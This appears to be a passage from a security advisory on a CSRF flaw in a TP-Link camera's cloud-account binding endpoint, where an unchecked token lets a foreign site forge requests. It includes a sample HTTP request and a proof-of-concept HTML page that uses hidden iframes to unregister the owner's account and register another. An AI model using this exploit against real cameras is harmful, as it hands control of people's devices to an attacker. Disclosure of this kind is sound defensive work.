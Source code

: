 1. 'username' and 'password' must belong to a valid account registered
at http://www.tplinkcloud.com/
1. 'cameraname' should contain the name chosen when first configuring the
camera, however the parameter can be removed.
1. 'token' is a random token, presumably for CSRF protection, however it is
not verified on the server. The token
parameter must be present in the request, but it can be set to an empty value
and the request will still be valid.

~~~
POST /cloud.fcgi HTTP/1.1
Host: 192.168.0.10
Referer: http://192.168.0.10/index.html
Content-Type: application/x-www-form-urlencoded;charset=utf-8
Content-Length: 73
Cookie: StreamAccount=admin; StreamPassword=[Base64 encoded password]; sess=zj56859s6xbv7id
Connection: close

command=bind&username=[email]&password=[password]&cameraname=[camera name]
	&token=[random token]
~~~


Without 'cameraname' and 'token' there are not other random or
unpredictable elements in the form and therefore we are able to create a valid
request from a different web site.

A simple PoC to unregister the account and then register a different account
is shown below. The exploit is divided into three pages:

1. ```index.html``` - Create iframes for the other two requests
1. ```unregister.html``` - Perform request to unregister the current account. If no
account is registered, nothing will happen.
1. ```register.html``` - Register a new account.

~~~HTML
<!DOCTYPE html>
<!-- index.html -->
<html>
<body>
<div id="unregister"></div>
<div id="register"></div>
<script>
var unregIframe = "<iframe src='/unregister.html' width='0' height='0'></iframe>";
document.getElementById("unregister").innerHTML = unregIframe;

// Wait some time until account has been unregistered
setTimeout(function(){
	var regIframe = "<iframe src='/register.html' width='0' height='0'></iframe>";
	document.getElementById("register").innerHTML = regIframe;
}, 10000);
</script>
</body>
</html>
~~~

